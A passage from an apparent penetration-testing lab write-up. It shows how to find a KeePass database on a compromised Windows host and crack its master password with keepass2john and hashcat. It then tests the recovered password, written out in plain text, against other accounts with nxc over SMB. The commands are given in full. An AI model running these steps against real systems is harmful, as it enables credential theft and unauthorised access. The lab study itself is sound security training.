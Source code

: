 I got a shell as NT Authority\System.
![image.png](juicy.png)

## Method 2

Checking our user directories I found an interesting file `.kdbx`:

```powershell
tree /f
```

![image.png](image%2014.png)

Some password managers such as `KeePass` are stored locally on the host. If we find a `.kdbx` file on a server, workstation, or file share, we know we are dealing with a `KeePass` database which is often protected by just a master password.

If we can download a `.kdbx` file to our attacking host, we can use a tool such as [keepass2john](https://gist.githubusercontent.com/HarmJ0y/116fa1b559372804877e604d7d367bbc/raw/c0c6f45ad89310e61ec0363a69913e966fe17633/keepass2john.py) to extract the password hash and run it through a password cracking tool such as [Hashcat](https://github.com/hashcat) or [John the Ripper](https://github.com/openwall/john).

For transferring from Windows to Linux I used the same SMB share method.

```bash
python2.7 keepass2john.py ILFREIGHT_Help_Desk.kdbx  
keepass2john Database.kdbx > keepass.hash
```

```bash
hashcat --help | grep -i "KeePass"
hashcat -m 13400 keepass_hash /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt
```

![image.png](image%2015.png)

> Be sure to delete `CEH:` from hash.
{: .prompt-warning }
```bash
hashcat -m 13400 CEH.hash /usr/share/wordlists/rockyou.txt
```

![image.png](image%2016.png)

I am gonna try this password with kohsuke and administrator users:

```bash
sudo nxc smb $IP -u kohsuke -p moonshine1 --shares
```

![image.png](image%2017.png)

```bash
sudo nxc smb $IP -u Administrator -p moonshine1 --shares
```

